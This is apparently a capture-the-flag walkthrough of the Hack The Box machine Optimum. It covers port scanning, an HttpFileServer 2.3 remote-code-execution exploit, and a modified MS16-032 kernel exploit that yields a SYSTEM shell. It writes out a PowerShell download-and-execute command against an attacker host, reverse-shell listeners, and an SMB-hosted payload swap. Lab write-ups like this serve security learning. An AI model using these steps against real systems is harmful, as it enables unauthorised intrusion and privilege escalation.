

Return to Main Page
Optimum Walkthrough
Contents
Optimum was very quick to gain a foothold. Simply searching the web app in searchsploit reveled a RCE script which was easy to use. Privilege escalation consisted of finding a kernel exploit. Slight modifications to the exploit were required. The kernel exploit granted us a system shell.
Running a port scan against the full port range to determine which ones are open.
# Nmap 7.91 scan initiated Mon Oct 18 16:14:36 2021 as: nmap -p- -oN ping_tcp 10.129.1.127
Nmap scan report for 10.129.1.127
Host is up (0.043s latency).
Not shown: 65534 filtered ports
PORT STATE SERVICE
80/tcp open http
# Nmap done at Mon Oct 18 16:16:47 2021 -- 1 IP address (1 host up) scanned in 131.56 seconds
Running an nmap scan using the flags -sV and -sC to enumerate service versions and other information.
# Nmap 7.91 scan initiated Mon Oct 18 16:21:00 2021 as: nmap -p80 -sV -sC -oN nmap/script_tcp 10.129.1.127
Nmap scan report for 10.129.1.127
Host is up (0.039s latency).
PORT STATE SERVICE VERSION
80/tcp open http HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 18 16:21:14 2021 -- 1 IP address (1 host up) scanned in 14.44 seconds
The nmap scans only pick up on port 80 being open and running HttpFileServer 2.3. I visit the web page where I can see that the file server is running. I use searchsploit to see if any exploits exist for it.
This exploit appears to be what we are looking for. I download it using "searchsploit -m 49125". I take a look at the script code to see what is going on.
The script appears to fill in a url that injects a command of our choosing. I will use the example command in order to gain a reverse shell. First I need to setup my reverse shell powershell script. I will use the nishang script /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1.
┌──(kali㉿kali)-[~/Documents/htb2/Optimum]
└─$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
Now I will edit the script and appened the reverse shell function to the end of the script.
With the nishang script setup I will now setup a python web server in the same directory as the script.
┌──(kali㉿kali)-[~/Documents/htb2/Optimum]
└─$ sudo python3 -m http.server 80 1 ⨯
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Now I set up my netcat listener in preparation for receiving a reverse shell connection on port 443. I also prepend rlwrap to my netcat listener command so I can use the arrow keys to navigate the CLI within my reverse shell connection.
┌──(kali㉿kali)-[~/Documents/htb2/Optimum]
└─$ rlwrap nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
With the reverse shell in place, my python web server set up, and my netcat listener listening, I will now execute the exploit using the command shown in the example of the exploit script.
I begin the privilege escalation stage using winpeas, however that turns up nothing of interest. Except for the fact that in the Watson section of the winpeas output nothing is populating, which is unusual. So I begin to look for a kernel exploit. There are 3 tools I use to search for kernel exploits. Windows Exploit Suggest - Next Generation (wes-ng), Watson, and Sherlock. wes-ng gives a lot of false positives so I attempt to use Watson or Sherlock instead. Watson would not work using winpeas and I could not get it to work manually either. I attempted to use a copy from the SharpCollection github repo. So, I use Sherlock which is the old powershell script version of Watson.
I move Sherlock.ps1 to the same directory that I have a python web server running. I also append "Find-AllVulns" to the bottom of Sherlock.ps1 so that the script executes that function immediately after loading. Then I use the command: powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.83/Sherlock.ps1')" in order to download and execute Sherlock.ps1.
In the output from the Sherlock script we can see this machine "Appears Vulnerable" to MS16-032, MS16-034, and MS16-135. MS16-034 did not have any precompiled exploits available so I put it on the backburner. MS16-135 did not work using the exploit I found. I ended up landing on MS16-032 using a working exploit from the searchsploit database.
I open up the exploit, 39719.ps1 and find the function used to execute the script is "Invoke-MS16-032" so I append this to the end of the script. I do this so that when I use the powershell command on the victim machine to download and execute the powershell script, it will read the Invoke command immediately after and execute the exploit. Now, I make sure this script is in the same directory that I have a python web server running (sudo python http.server 80). Then I download and execute the script from the victim machine.

The output from the script says it worked successfuly and that we have a SYSTEM shell. However, I check my shel using "whoami" and I see that I still have a shell as kostas, not SYSTEM. After running the exploit a few more times, I get curious to see if it is creating a shell but not giving me access to it. So, I use tasklist /V and I find that each time I run the exploit it is creating a cmd.exe process in the background with Administrator permissions. The shell is being created, but I do not have access to it. However, we apparently code execution as SYSTEM.
In order to gain a SYSTEM shell I modify the exploit. First, I create a reverse shell executable using msfvenom.
Then, I setup a smb share using impacket-smbserver
At this point, I have my shell.exe file created and my smb share setup in the same directory as the shell.exe file. Now I will edit the exploit (39719.ps1) and replace all mentions of cmd.exe with \\10.10.14.83\share\shell.exe
The above is one of the two instances where cmd.exe is mentioned in the script. I will replace the entire highlighted area with \\10.10.14.83\share\shell.exe so that when the script runs it will execute my shell.exe file under the context of SYSTEM instead of cmd.exe.
At this point I have the following in place:
- Modified exploit script - cmd.exe changed to \\10.10.14.83\share\shell.exe
- smb share started in the same directory as shell.exe - sudo impacket-smbserver share .
- python web server running in the same directory as the exploit script - sudo python3 -m http.server 80
- netcat listener on port 4444 - rlwrap nc -lvnp 4444
Now I will execute the script from the victim machine.
In the above, we can see an nt authority\system shell has connected to the netcat listener.